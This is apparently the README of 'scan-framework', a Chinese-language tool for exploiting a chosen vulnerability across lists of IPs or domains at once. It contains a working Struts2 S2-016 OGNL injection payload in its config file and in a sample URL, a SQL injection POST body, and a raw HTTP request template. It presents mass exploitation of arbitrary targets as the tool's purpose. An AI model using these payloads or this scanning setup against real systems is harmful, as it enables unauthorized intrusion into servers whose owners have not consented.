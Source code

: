 # scan-framework

------

scan-framework是一个漏洞批量利用扫描框架，只需要进行简单配置，就可以变成一个任意漏洞批量利用的工具，前提是你必须有漏洞的payload、扫描的IP或者域名列表。

你可以使用 scan-framework：

> * 进行GET方法的形式的漏洞批量扫描
> * 进行POST方法的形式的漏洞批量扫描
> * 进行Http原始报文的漏洞批量扫描

------

## 使用步骤

> * 确保收集一个有效的漏洞探测payload
> * 有一个待扫描的IP或者域名列表
> * 触发漏洞的页面中有代表漏洞探测成功的特征字符串
> * 会使用scan-framework的配置文件

## 配置文件
配置文件位于工程中的conf文件夹下：
```
[main]
# 扫描为真的规则（支持正则）
scan_rule = hacker
# 扫描后收集结果的规则（支持正则）
res_rule = hacker
# 扫描使用的payload
payload = redirect:${%23p%3d%23context.get('com.opensymphony.xwork2.dispatcher.HttpServletResponse').getWriter(),%23p.println(%22hacker%22),%23p.close()}
# 使用raw方法，放置http报文的文件
raw_file = 
# 待扫描ip列表的文件
ip_file = c:\\ip.txt
#输出结果的文件
out_file = c:\\res.txt
# 开启的线程数
thread_num = 8
# 请求的方式
method = get
```
上面是一个典型的get方法的漏洞扫描的配置，其中特征字符串尾hacker，扫描中可以根据**scan_rule**判断是否存在漏洞，使用**res_rule**获取漏洞触发页面上的一些信息，这个两个选项支持正则匹配，你可以写入判断依据的正则表达式，scan-framework会使用它们进行爬取。

##两种扫描方式
**url**模式下，可以扫描如下形式的漏洞，比如S2-016漏洞：
```
http://127.0.0.1:8080/struts_hello/hello?redirect:${%23p%3d%23context.get('com.opensymphony.xwork2.dispatcher.HttpServletResponse').getWriter(),%23p.println(%22hacker%22),%23p.close()}
```
如果网站有漏洞，那么在页面上会显示出*hacker*字符串，只需要配置:
```
scan_rule = hacker
```
上面是一种get方式的漏洞扫描。
当method = post时，payload为POST数据包中请求体，如：
```
username=admin' and 1=1&password=xxss&login=1
```
**raw**模式下，要求配置文件中raw_file不为空，而是指定一个保存http请求报文的文件，文件中可能是下面的形式：
```
GET /code/test.php HTTP/1.1
Host: 127.0.0.1
Proxy-Connection: keep-alive
Cache-Control: max-age=0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
User-Agent: Mozilla/5.0 (Windows NT 6.1; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/28.0.1500.95 Safari/537.36 SE 2.X MetaSr 1.0
Referer: http://127.0.0.1/code/
Accept-Encoding: gzip,deflate,sdch
Accept-Language: zh-CN,zh;q=0.8
Cookie: PHPSESSID=bv2n8m904ggt8nsi9istnm9fg7


```
##Bug反馈
请联系：
exploitcat@foxmail.com
